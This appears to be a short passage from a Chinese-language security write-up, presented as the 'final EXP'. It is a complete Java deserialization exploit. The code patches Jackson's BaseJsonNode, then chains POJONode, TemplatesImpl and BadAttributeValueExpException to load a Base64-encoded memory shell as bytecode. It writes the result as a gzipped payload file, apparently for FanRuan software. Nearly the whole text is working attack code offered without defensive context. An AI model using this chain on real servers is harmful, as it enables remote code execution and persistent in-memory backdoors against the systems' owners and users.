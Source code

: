 最终EXP如下  
```
public class POJONodeExp2 {
    public static void main(String[] args) throws Exception {

        CtClass ctClass = ClassPool.getDefault().get("com.fr.third.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();

        String memshell = "Base64编码的内存马";
        ClassPool pool = new ClassPool();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        byte[] classBytes = new BASE64Decoder().decodeBuffer(memshell);

        Class tplClass = TemplatesImpl.class;
        Class transFactory = TransformerFactoryImpl.class;
        Object templates = tplClass.newInstance();
        //直接读取class文件
//        byte[] classBytes = Files.readAllBytes(Paths.get("Evil.class"));

        SetFieldValue.setFieldValue(templates, "_bytecodes", new byte[][]{classBytes});
        SetFieldValue.setFieldValue(templates, "_name", "bbb");
        SetFieldValue.setFieldValue(templates, "_tfactory", transFactory.newInstance());

        POJONode node = new POJONode(templates);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);

        SetFieldValue.setFieldValue(val,"val",node);

        byte[] serialize = Serializer.serialize(val);
        String fileName = "ser.bin";
        FileOutputStream fos = new FileOutputStream(fileName);
        GZIPOutputStream gzip = new GZIPOutputStream(fos);
        gzip.write(serialize);
        gzip.finish();
        fos.close();
    }
}

```  
  
